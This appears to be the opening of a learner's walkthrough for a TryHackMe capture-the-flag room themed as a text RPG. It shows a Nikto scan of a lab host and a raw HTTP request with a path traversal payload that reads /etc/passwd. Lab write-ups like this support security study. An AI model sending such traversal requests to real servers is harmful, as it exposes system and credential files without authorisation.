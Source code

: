<h1 align="center">You´re in a cave</h1>
<p align="center"><img width="80px" src="https://github.com/user-attachments/assets/75091a72-4a8f-469f-8ef2-609f2f7fd7bd"><br>
2025, September 25<br> Hey there, fellow lifelong learner! I´m <a href="https://www.linkedin.com/in/rosanafssantos/">Rosana</a>,<br>
and I’m excited to join you on this adventure, part of my <code>507</code>-day-streak in<a href="https://tryhackme.com"> TryHackMe</a>.<br>
<em>A room with some ctf elements inspired in text based RPGs</em>.<br>
Access it <a href="https://tryhackme.com/room/inacave">here</a>.<br>
<img width="1200px" src=""></p>

<h2 align="center">Task 1 . Introduction</h2>
<h3 align="center">What is a honeypot?</h3>

<p>Hello, i made this room to be a fun challenge very CTF-like, the room acts like you are a RPG adventurer and is passing through some challenges, hope you like it :D</p>
<h6>Icon made by Freepik from www.flaticon.com</h6>

<p><em>Answer the questions below</em></p>

<p>1.1. What was the weird thing carved on the door? Hint: <em>After getting it to work with POST, you can try it with GET</em><br>
<code>_____________________________________</code></p>



```bash
:~/Cave# nikto -h 10.201.116.18
- Nikto v2.1.5
---------------------------------------------------------------------------
+ Target IP:          10.201.116.18
+ Target Hostname:    cave.thm
+ Target Port:        80
+ Start Time:         2025-09-25 23:49:16 (GMT1)
---------------------------------------------------------------------------
+ Server: Apache/2.4.41 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ DEBUG HTTP verb may show server debugging information. See http://msdn.microsoft.com/en-us/library/e8z01xdh%28VS.80%29.aspx for details.
+ Server leaks inodes via ETags, header found with file /search?NS-query-pat=../../../../../../../../../../etc/passwd, fields: 0xc5 0x5adb8552aa880 
+ 6544 items checked: 0 error(s) and 3 item(s) reported on remote host
+ End Time:           2025-09-25 23:49:25 (GMT1) (9 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested

```


```bash
GET /search?NS-query-pat=../../../../../../../../etc/passwd HTTP/1.1
Host: cave.thm
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:131.0) Gecko/20100101 Firefox/131.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: close
Referer: http://cave.thm/
```
